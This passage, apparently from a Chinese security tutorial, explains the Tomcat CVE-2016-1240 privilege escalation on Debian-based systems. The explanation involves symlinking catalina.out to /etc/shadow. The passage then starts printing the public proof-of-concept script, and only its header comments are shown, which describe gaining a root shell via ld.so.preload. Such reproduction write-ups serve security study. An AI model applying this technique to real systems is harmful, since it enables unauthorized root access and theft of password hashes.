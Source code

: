 使用head命令可以输出文件前十行的内容，而`cat`命令则是预览文件的全部内容。

![image](img/6dabf00f710118574f5d7d3e7f3b5fb8.png)

**原理:**当Tomcat服务重启时，系统默认重新加载`/var/log/tomcat6/catalina.out`脚本，由于此时tomcat的日志文件指向了`/etc/shadow文件`; 而该文件就是我们之前创建的链接文件，而链接文件属于Tomcat7这个`低权限用户`，因此，我们就可以查看其中内容了。

### 漏洞复现

本步将使用poc根据Tomcat7漏洞进行提权

#### poc

```
#!/bin/bash
#
# Tomcat 6/7/8 on Debian-based distros - Local Root Privilege Escalation Exploit
#
# CVE-2016-1240
#
# Discovered and coded by:
#
# Dawid Golunski
# http://legalhackers.com
#
# This exploit targets Tomcat (versions 6, 7 and 8) packaging on 
# Debian-based distros including Debian, Ubuntu etc.
# It allows attackers with a tomcat shell (e.g. obtained remotely through a 
# vulnerable java webapp, or locally via weak permissions on webapps in the 
# Tomcat webroot directories etc.) to escalate their privileges to root.
#
# Usage:
# ./tomcat-rootprivesc-deb.sh path_to_catalina.out [-deferred]
#
# The exploit can used in two ways:
#
# -active (assumed by default) - which waits for a Tomcat restart in a loop and instantly
# gains/executes a rootshell via ld.so.preload as soon as Tomcat service is restarted. 
# It also gives attacker a chance to execute: kill [tomcat-pid] command to force/speed up
# a Tomcat restart (done manually by an admin, or potentially by some tomcat service watchdog etc.)
#
# -deferred (requires the -deferred switch on argv[2]) - this mode symlinks the logfile to 
```